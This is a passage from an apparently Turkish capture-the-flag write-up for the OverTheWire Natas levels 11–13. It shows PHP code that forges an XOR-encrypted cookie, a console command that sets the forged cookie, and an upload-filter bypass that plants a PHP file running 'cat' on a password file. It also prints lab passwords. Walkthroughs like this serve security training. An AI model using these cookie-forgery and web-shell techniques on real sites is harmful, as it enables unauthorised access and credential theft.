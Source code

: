 Artık key ile istediğimiz değeri işleme alarak yeni cookie değerimizi bulabiliriz. Yani amacımız `showpassword` değerini "yes" olarak değiştirmek.

```php
function xor_encrypt($in) {
    $key = "qw8J";
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

// yeni cookie değerimiz ekrana gelecek.
echo base64_encode(xor_encrypt(json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff"))));
```

Yeni cookie değerimiz: `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK`. Bu değeri geliştirici seçeneklerinden javascript konsolundan şu şekilde değiştirebiliriz:  
`document.cookie="data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK"`

```text
natas12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

## Level 12 -> Level 13

Sayfanın kaynak kodunu incelediğimizde `genRandomString()` fonksiyonu 10 karakter uzunluğunda rastgele bir string üretiyor. `makeRandomPath()` ve `makeRandomPathFromFilename()` yüklediğimiz dosya için bir isim ve dizin oluşturuyor. if bloğunda ise; eğer biz port metodu ile bir dosya gönderirsek bu dosyayı upload/ dizinine rastgele bir isimle kaydediyor.

Normal koşullarda yüklememiz gereken dosya jpg dosyası. Bunu sayfanın kaynak kodundaki `<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />` satırından anlayabliyoruz. Eğer biz resim dosyası yerine php dosyası yüklemek istesek? O zaman geliştirici seçeneklerinden sayfanın bu kısmına midahale edeceğiz. Geliştirici araçlarından dosya uzantısını php olarak değiştirin. ardından sisteme istediğiniz php dosyasını yükleyebilirsiniz. Ben kısaca natas13 şifresini ekrana basan şu php kodunu yükleyerek seviyeyi atladım:

```php
<?php
echo system("cat /etc/natas_webpass/natas13");
?>
```

Buna benzer bi kodla size natas13 şifresini ekrana basabilirsiniz.

```text
natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## Level 13 -> Level 14


[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code